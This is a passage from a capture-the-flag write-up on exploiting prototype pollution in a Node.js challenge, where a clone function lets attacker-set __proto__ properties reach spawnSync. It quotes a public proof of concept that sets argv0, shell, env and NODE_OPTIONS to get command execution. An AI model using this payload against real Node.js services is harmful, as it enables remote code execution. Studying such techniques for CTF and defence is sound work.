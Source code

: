 Then we injcet the property through prototype polution and check if everything is working correctly. As we can see, we successfully injected the property `ppp` into the node.js `__proto__`.

![alt text](/assets/ask-me-anything/30_image.png)

To exploit the prototype polution we need to find a property which we can manipulate, is not overwritten, and manipulating it has a security-relevant side-effect.

A popular prototype exploitation sink are calls to `spawnSync`. The library takes certain manipulatable properties which, when not specificaly set by a developer, are controllable by the attacker.

```js
// Prototype polution due to `clone` function
const safePrompt = checkPromptInjection(prompt);

let allPrompt = [];
for(let i = 0; i < defaultPrompt.length; i++) {
    // Prototype polution due to `clone` function
    allPrompt.push(clone({}, defaultPrompt[i], 5));
}
// pusing the following arguments on a list `llm.js` `system prompt` `assistant prompt` `user prompt`
allPrompt.push(safePrompt);
// Spawning the `llm.js` script with the command
// `node "llm.js" "system prompt" "assistant prompt"` ...
const child =  spawnSync('node', createArguments(allPrompt), { encoding: 'utf-8', stdio: 'pipe' });
```


As seen in the following [public PoC](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce#spawnsync-exploitation), the PoC makes use of several properties which an attacker can control.
While this PoC is a good indication on how to exploit our CTF challenge, it does not run out of the box.

```js
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/spawnSync-environ').toString())//"}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = spawnSync('something');
```
